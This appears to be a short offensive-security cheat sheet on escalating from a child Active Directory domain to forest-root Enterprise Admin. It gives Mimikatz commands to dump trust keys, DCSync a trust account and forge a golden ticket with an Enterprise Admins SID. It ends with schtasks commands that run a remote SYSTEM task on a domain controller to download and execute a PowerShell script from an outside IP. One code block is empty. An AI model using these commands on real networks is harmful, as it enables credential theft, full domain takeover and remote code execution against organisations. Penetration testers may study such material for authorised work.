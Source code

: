 # Trusted Key

## Trusted Key

Require to be domain Admin on the child domain

Can lead to Enterprise Admin compromise.

{% hint style="info" %}
* Child to Forest Root
* Domains in the same forest have a implicit 2-ways trust with other domains.
* Trust key between parent and child domains
{% endhint %}

2 ways to escalate privileges between 2 domains in the same forest :

* krbtgt hash
* Trust Tickets

## KRBTGT

### Get the Trust key

{% hint style="warning" %}
2 techniques are available :

* **lsadump::trust /patch**
* **lsadump::dcsync**
{% endhint %}

```csharp
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dc02
```

![](<../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1).png>)

#### Second technique

```csharp
Invoke-Mimikatz -Command '"lsadump::dcsync /domain:crook.badcorp.local /user:badcorp$"'
```

![](<../../../../.gitbook/assets/image (176).png>)

{% hint style="warning" %}
To access to the Root forest, the domain controller in the child forest will create a TGT for Root forest DC and indicate that it’s a referral to a TGS. This TGT is not signed by the krbtgt password hash but instead with the trust key
{% endhint %}

### Golden ticket to Root Forest Enterprise Admins

#### Get krbtgt hash on the child domain

```csharp
```

#### Golden Ticket

* Domains SID&#x20;

![](<../../../../.gitbook/assets/image (54).png>)

#### - Golden ticket :

```csharp
Invoke-Mimikatz -command '"kerberos::golden /user:idontexit /domain:crook.badcorp.local /krbtgt:redacted /sid:S-1-5-21-xxxxxxxxx-xxxxxx-xxxxx /sids:S-1-5-21-xxxxxxx-xxxxxx-519 /ptt"'
```

![](<../../../../.gitbook/assets/image (290).png>)

### Get shell

```csharp
 schtasks /create /S DC.test.lab.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "STCheck" /TR  "powershell.exe -c 'iex (New-Object  Net.WebClient).DownloadString(''http://172.16.100.82/polo.ps1''')'"
 schtasks.exe /run /S DC.test.lab.local /TN "STCheck"
```
